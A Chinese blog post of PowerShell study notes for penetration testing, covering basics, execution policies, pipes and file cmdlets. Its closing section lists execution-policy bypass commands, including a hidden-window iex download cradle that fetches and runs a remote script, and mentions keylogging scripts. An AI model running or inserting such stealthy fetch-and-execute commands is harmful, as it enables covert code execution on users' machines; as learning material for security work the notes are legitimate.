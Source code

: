 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      powershell笔记整理               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00powershell简单介绍：
> windows powershell是一种命令行外壳程序和脚本环境，它内置在每个受支持的windows（windows7、windows 2008 R2和更高版本）版本中，可以利用.NET framework的强大功能。
powershell的优点：
- ·windows7以上版本默认安装
- ·powershell脚本可以运行在内存中，不需要写入磁盘
- ·ps脚本可以跨系统，许多工具也是基于powershell开发的
- ·很多安全软件不能检测到powershell的活动
- ·cmd.exe通常会被阻止运行，但是powershell不会
- ·可以用来管理活动目录

powershell的有关基本概念：      
2.1powershell文件：  
一个powershell脚本其实就是一个简单的文本文件，拓展名为.PS1.其中的powershell命令独立一行。  
2.2执行策略：  
为防止恶意脚本的执行，powershell有一个执行策略，默认情况下，这个执行策略被设为受限、所以在powershell脚本无法执行时，可以使用下面的cmdlet命令确定当前的执行策略。  
Get-ExecutionPolicy：
- ·Restricted：脚本不能运行
- ·RemoteSigned：本地创建的脚本可以运行，从网上下载的脚本不能运行（拥有数字证书签名的除外）
- ·AllSigned:仅当脚本由受信任的发布者签名时才能运行。
- ·Unrestricted：允许所有的script运行

可以利用下面的cmdlet命令设置powershell的执行策略  
`Set-ExecutionPolicy <policy name>  `  
2.3运行脚本：  
运行一个ps脚本，必须键入完整的路径和文件名，如果恰好ps脚本位于系统目录中，那么可以".\xxx.ps1"直接执行  
2.4管道：  
管道的作用是将一个命令的输入作为另一个命令的输入，两个命令用管道符号（|）连接。  
例如：get-process p* | stop-process  
3、powershell常用命令：  
文件操作：  
·新建目录：new-item whitecellclub-itemtype directory  
·新建文件：new-item light.txt-itemtype file  
·删除目录: remove-item whitecellclub  
·显示文本内容：get-content test.txt  
·设置文本内容：set-content test.txt-value"hello,world"  
追加内容：add-content light.txt-value"I love you"  
清除内容：clear-content test.txt  
如需帮助，输入help命令显示帮助菜单  
运行powershell脚本时，需要用管理员权限将restricted策略改成unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本，如下：  
- ①绕过本地权限执行：`Powershell.exe-executionpolicy bypass-file xxx.ps1`,执行本地文件
- ②本地隐藏绕过权限执行脚本：`Powershell.exe-executionpolicy bypass-windowstyle hidden-nologo-noninteractive-noprofile-file xxx.ps1`
- ③用iex下载远程ps1脚本绕过权限执行：Powershell.exe-executionpolicy bypass-windowstyle hidden-noprofile-noni iex(new-objectnet.webclient) .downloadstring("xxx.ps1");[parameters]

参数说明：  
Windowstyle hidden:隐藏窗口  
Nologo: 启动不显示版权标志的powershell  
Noninteractive(noni):非交互模式，powershell不为用户提供交互的提示  
noprofile（nop）：powershell控制台不加载当前用户的配置文件  
noexit：执行后不退出脚本，在使用键盘记录等脚本时非常重要、  


